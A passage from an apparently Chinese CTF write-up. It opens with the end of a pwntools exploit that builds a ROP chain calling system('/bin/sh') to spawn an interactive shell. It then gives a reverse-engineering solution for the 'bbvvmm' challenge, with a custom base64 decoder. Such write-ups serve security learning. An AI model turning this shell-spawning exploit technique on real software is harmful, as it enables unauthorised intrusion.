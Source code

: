 ```python
bin_sh = libc_base + 0x18cd57

p.sendline('yes\x00')

Modify(344, rdi)
Modify(352, bin_sh)
Modify(360, sys_addr)
ti = 24
padd(41 - ti)

p.recvuntil('? \n')
p.sendline('yes\x00')

p.interactive()
```

## Reverse

### bbvvmm

用qira神器，跟着输入流走
然后走到0x4056ff，发现有一个xor，对应xor的是x
再跟踪了下，然后发现输入的密码与下面的字符串异或了一下
xyz{|}

应该就是密码了

用户名的话，首先是sms4加密，然后再用魔改的base64加密了

sms4的我是用c语言解的，这里就不放了，下面是解base64的

```
def decode(a1):
    b = 'IJLMNOPKABDEFGHCQRTUVWXSYZbcdefa45789+/6ghjklmnioprstuvqwxz0123y'
    d = []
    for i in range(0,len(a1),4):
        c = []
        for q in range(4):
            if a1[i+q] not in b:
                c.append(0)
            else:
                c.append(b.index(a1[i+q]))
        t1 = (c[0]<<2) | (c[1]>>4)
        t2 = ((c[1]&0xf)<<4) | (c[2]>>2)
        t3 = ((c[2]&0x3)<<6) | c[3]
        d += [t1,t2,t3]
    return d


t1 = 'RVYtG85NQ9OPHU4uQ8AuFM+MHVVrFMJMR8FuF8WJQ8Y='
#t1 = 'G9YuQtFtFVQrRM4uQ8AuR8IpGMNvFM9tG8FqQ8QwR9Q='
t2 = decode(t1)
s = ''
for i in range(32):
    s+=chr(t2[i])
t3 = []
for i in range(0,len(s),2):
    t3.append(int(s[i:i+2],16))
keys=[0xDA,0x98,0xF1,0xDA,0x31,0x2A,0xB7,0x53,0xA5,0x70,0x3A,0xB,0xFD,0x29,0xD,0xD6]
print(t3)

t4 = '6261647265723132'
s = ''
for i in range(0,len(t4),2):
```